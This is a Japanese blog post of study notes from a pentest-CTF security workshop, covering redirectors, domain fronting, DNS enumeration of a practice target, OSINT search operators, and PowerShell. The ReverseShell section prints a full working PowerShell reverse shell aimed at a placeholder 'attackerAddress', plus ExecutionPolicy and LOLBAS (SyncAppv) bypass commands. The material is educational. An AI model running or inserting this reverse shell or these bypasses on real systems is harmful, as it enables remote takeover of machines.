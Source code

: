 ```yaml
---
date: 2019-12-29
description: '浪速セキュリティnote'
category:
 - 雑記
---
```


# 浪速セキュリティnote
12/29(日)に開催された[浪速セキュリティ勉強会#04 #05：ペンテストCTFで学ぶサイバーセキュリティ（12月29日)](https://naniwasecurity.connpass.com/event/154331/)に参加した際のarchive

## 基礎知識
 - 今回は実際に攻撃するまでの偵察がメイン
 - `nc -lvnp 80`でlisten

### redirector
 - targetと直接通信するサーバ
 - これ自身を調べても本体はいない
 - 自分たちの安全を保証するために挟むのが一般的
 - ペンテストやレッドチームもこういったところまでやる必要がある
 - 目的
   - 自分たちをtargetから隠す
   - redirectorをtakedownされても別のredirectorを立てればよい

## DNSの調査
### domain fronting
   - HTTPS接続のドメインを難読化(解析困難化)することによってインターネットの検閲やブロッキングを回避する手法
   - 例えば、CDNのサーバーにリフレクションサーバーを紛れ込ます手法などかある
   - https://malware-log.hatenablog.com/entry/Domain_Fronting
   - 最近はreputationで判断しているので, false positiveがある
     - [domainFrontingLists](https://github.com/vysecurity/DomainFrontingLists)
     - [WebPulse Site Review Request](https://sitereview.bluecoat.com/#/)

### DNSの調査(DNS Enumeration)
 - targetのname serverの探索
 - zonetransfer.meは脆弱なやられサーバ的な感じ
 - `host -t ns {targetip}`
   - nsレコードをもらってくる

```
~# host -t ns zonetransfer.me
zonetransfer.me name server nsztm1.digi.ninja.
zonetransfer.me name server nsztm2.digi.ninja.

```
 - `host -t mx {targetip}`

```
# host -t mx zonetransfer.me
zonetransfer.me mail is handled by 0 ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 10 ALT2.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX4.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 10 ALT1.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX5.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX3.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX2.GOOGLEMAIL.COM.
```

   - mxレコードをもらってくる
   - 相手はメールをgmailの管理サーバを使っている
   - 標的型攻撃をする場合, googleの持っている昨日はscanされてしまう
     - malwareを作って添付してもそもそも着弾しない可能性がある
     - 自分でgoogleのメールサーバを使って確認することができる
     - 他のメールでも同様

### DNS Lookup
 - 存在しそうなホスト名にDNSパケットを飛ばして確認する手法

```
for name in $(cat /usr/share/dnsenum/dns.txt); do
host ${name}. zonetransfer.me | grep "has address" | cut -d " " -f 1,4
done
```

### Reverse DNS Lookup
 - 1つ存在しているホスト名を見つけ, 存在しているホスト名の近くを使っていると想定して上でBruteForceを試す手法
 - 192.168.33.{brute force}

### DNS Zone Transfer
 - ゾーン転送情報取得を用いて確認する手法
 - dig axfr @... addr

### 内部のサーバのレコードを見る
   - サーバ証明書を発行した時に発行した旨をDBに蓄積する
   - これが改ざんされていないかを確認する仕組みがある
     - [【講演】Certificate Transparencyを知ろう ～証明書の透明...](https://www.jnsa.org/seminar/pki-day/2016/data/1-2_oosumi.pdf)
   - このログサーバは公開されている
   - 内部のサーバレコードが見れる
   - 命名から中身が想定できる
   - [findomain](https://github.com/Edu4rdSHL/findomain)
   - redirectorは直接通信する
   - redirectは挟んで通信するので遮断される可能性がある

## OSINT
### Google Search Operator
   - http://www.googleguide.com/print/adv_op_ref.pdf
   - 空白はOR
   - `-`は除外
   - `site:`
   - `filetype:`
     - `filetype:pdf`が便利
### Twitter Serach Operators
   - https://developer.twitter.com/en/docs/tweets/rules-and-filtering/overview/standard-operators
   - `geocode: 緯度,経度,距離km`
   - https://www.exploit-db.com/google-hacking-database
   - extレコード
   - 社内向け資料に連絡先があるなど
 
## ReverseShell
### PowerShell
 - PowerShellでファイルを実行するにはExecutionPolicyを設定し直す必要がある
   - [設定値等についてはこちら(Qiita: PowerShellのExecutionPolicyのスコープとかについて詳しく)](https://qiita.com/kikuchi/items/59f219eae2a172880ba6)

```
Set-ExecutionPolicy bypass`
start-process calc.exe
powershell.exe -executionpolicy bypass gen_calc.ps1
```

 - ReverseShell用のCSharpCode

```
$client = New-Object System.Net.Sockets.TCPClient("attackerAddress",443);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback =(iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};

$client.Close()
```

### PowerShell without powershell.exe
 - SyncAppvは仮想化モジュールの一部
 - powershellのコマンドを受け付ける
   - `C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; start-process calc.exe"`
   - これでcalc.exeが立ち上がる
 - lolbas(Living Off The Land Binaries and Scripts)
   - 現地調達型バイナリ(実行ファイル)
   - [Web: Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
   - [GitHub](https://github.com/LOLBAS-Project/LOLBAS)
   - ここで対象になっている107個のアプリケーションは対象にすることが求められる

### Restricting PowerShell
 - applocker
   - ブラックリスト管理をするのが良い
   - 最初に全て許可してからダメなものをブラックリストに入れる
 - apploockerのbypass
   - powershellを動かせる
   - 対策として, InstallUtil.exeをapplockerに入れる
     - その際に, 過去の実行ログをみて, 使われていない場合は良いかもしれない
     - だいたい使われているので, それらを使っているcallerをホワイトリスト管理するとよい
